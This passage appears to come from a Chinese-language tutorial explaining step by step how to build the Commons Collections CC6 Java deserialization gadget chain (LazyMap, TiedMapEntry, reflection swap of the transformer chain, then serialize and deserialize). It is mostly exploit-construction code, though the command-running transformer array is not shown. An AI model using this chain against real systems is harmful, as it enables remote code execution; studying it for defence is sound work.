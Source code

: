```
Map innerMap = new HashMap();

// 调用 LazyMap.decorate 实例化 LazyMap
// 先传入一个人畜无害的 transformerChain 对象 ConstantTransformer(1) ，避免本地调试时触发命令执行
Map outerMap = LazyMap.decorate(innerMap, new ConstantTransformer(1));
```

上述代码，为了避免本地调试时触发命令执⾏，构造 `LazyMap` 的时候先⽤了⼀个无伤大雅的虚假 `transformerChain` 对象 `ConstantTransformer(1)` ，等最后要⽣成 `Payload` 的时候，再把真正的 `transformers` 替换进去。

## 3.2 创建 TiedMapEntry 实例
看一下 TiedMapEntry 的构造函数：

<div align=center><img width="767" alt="image" src="https://user-images.githubusercontent.com/84888757/205505132-3e3228d0-dad8-4645-b14f-3e725bb421ea.png" /></div>


现在，已经创建了⼀个恶意的 `LazyMap` 对象 `outerMap` ，将其作为` TiedMapEntry` 的 `map` 属性，随便写个 `key` ：
```
TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");
```

然后为了调⽤ `TiedMapEntry#hashCode()` ，我们需要将 `tme` 对象作为 `HashMap` 的⼀个 `key` 。

注意，这⾥我们需要新建⼀个 `HashMap` ，⽽不是⽤之前 `LazyMap` 利⽤链⾥的那个 `HashMap` ，两者没任何关系：
```
Map expMap = new HashMap();
expMap.put(tme, "valuevalue");
```

然后利用反射将虚假 `Transformers` 对象替换为执行命令的数组 `transformers`

```
Class c = LazyMap.class;
Field factoryField = c.getDeclaredField("factory");
factoryField.setAccessible(true);
factoryField.set(outerMap, transformerChain);
```

## 3.3 CC6 Gadget 踩坑记
最后放上序列化和反序列化代码
```
        //==================
        //⽣成序列化字符串
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(expMap);
        oos.close();

        System.out.println(bos);

        // 反序列化
        ByteArrayInputStream bis = new ByteArrayInputStream(bos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bis);
        ois.readObject();
```
